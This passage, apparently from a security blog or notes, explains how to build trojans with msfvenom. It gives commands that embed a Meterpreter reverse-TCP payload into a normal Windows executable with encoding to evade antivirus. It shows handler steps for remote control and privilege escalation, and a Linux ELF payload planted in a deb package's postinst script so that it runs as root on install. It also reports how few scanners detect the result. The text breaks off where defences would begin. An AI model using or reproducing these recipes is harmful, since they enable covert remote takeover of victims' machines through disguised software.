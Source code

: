 Moreover, embed you malicious code into a normal functional program

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 \
		 -x nornalsoftware.exe #the exe you want to embed
		 -f exe -o normalsoftware-with-virus.exe
```

Then the virus could be used for client penetration. Steps are just like

```shell
use windows/meterpreter/reverse_tcp

show options 

set LHOST 192.168.128.32  # IP is the attacker's address

run

getsystem
```



Similarly, on Linux

```shell
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 -b "\x00" -i 10 -f elf -o virus
```

You can also make it into a packed deb or rpm package

```shell
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 -b "\x00" -i 10 -f elf -o /package/resource/virus

tee /root/free/DEBIAN/postinst << 'EOF'
#!/bin/bash
sudo chmod 2755 /package/resource/virus
sudo /package/resource/virus &
EOF
```

While install software on Linux, a sudo privilege will be required. Thus, as long as the software installed, the virus will start run.



 I used Virustotal to check the malware I generated, found less than half anti-virus software could recognize a malware like this one Windows platform. And even worse, if you use same configuration and generate a Linux malware like this, only one or two anti-virus software could recognize its dangerous. However, Linux users are generally professionals and enterprises, which lead a much smaller number of being attacked compared to Windows platforms.



There are not many ways to defend threaten like vulnerability and virus attacks:
